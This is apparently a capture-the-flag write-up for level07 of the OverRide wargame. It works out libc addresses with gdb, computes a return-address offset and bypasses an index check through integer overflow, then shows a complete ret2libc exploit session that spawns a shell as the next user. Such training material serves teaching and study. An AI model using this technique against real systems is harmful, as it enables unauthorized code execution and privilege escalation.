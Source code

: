 # Level07

## Reconnaissance

We have two security enabled:
- **RELRO Partial enabled** = GOT (Global Offset Table) placed were we cannot overflow
- **Canary** = Random value added after the return address, if it is modified, the program leave. Prevent overwrite of return address

We analyse the program with gdb and we notice that the program enable the user to store `unsigned int` in memory from a specific address but only in index which `index % 3 != 0` and with for the value, no numbers with the first byte equal to `183` so `0xb7`

In addition, the arguments and environement variables are erased so not possible to store a payload there.

## Exploit

### Getting addresses

![ret2libc](Ressources/ret2libc.avif)

Lets try to do a `ret2libc` which consist of creating a combinaison of `libc` function call and use of strings stored in `libc`.
How to get the address libc functions:
```shell
(gdb) info functions system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) info proc mappings
process 1989
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xffffe000, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```

So now we have the address of `"/bin/sh"` and `system`. We have to overwrite the return address of main with the address of `system`
then will be the spot for a return address after system has been called, we dont really need to specify something there.
And after, so system + `0x8` address, we specify the argument for system, so our `"/bin/sh"`

## Offset

![stack](Ressources/stack.svg)

So offset 456 and we can store `unsigned int` in memory so `4 bytes by 4 bytes` then our index is `456 / 4 = 114`
We have:
- `114` for the return address
- `116` for the argument (`"/bin/sh"`)

The issue is that `114` is not a valid value for index since `114 % 3 = 0`
Since the index is multiplied by 4, we just have to find a value which multiplied by 4 overflow to let us with `114` = `1110010`.

    1         2         3         4
0000 0000 0000 0000 0000 0000 0111 0010 = `114`

0000 0000 0000 0000 0000 0001 1100 1000 = `114 * 4` = `456` => equivalent to bitshifting `<<2` and in general `nb<<n` <=> `nb * 2**n`

so with that said, we just have to add a `1` on the last bit or the second last bit

0100 0000 0000 0000 0000 0000 0111 0010 = `1073741938` => `1073741938 % 3 = 1` great we got our number

OR

1000 0000 0000 0000 0000 0000 0111 0010 = `2147483762` => `2147483762 % 3 = 2`

Both works

Now we can write in the addresses, we just have to convert them in decimal and we good to pwn:
- `system`: `0xf7e6aed0` => `4159090384`
- `"/bin/sh"`: `0xf7f897ec` => `4160264172`

```shell
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 2147483762
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```

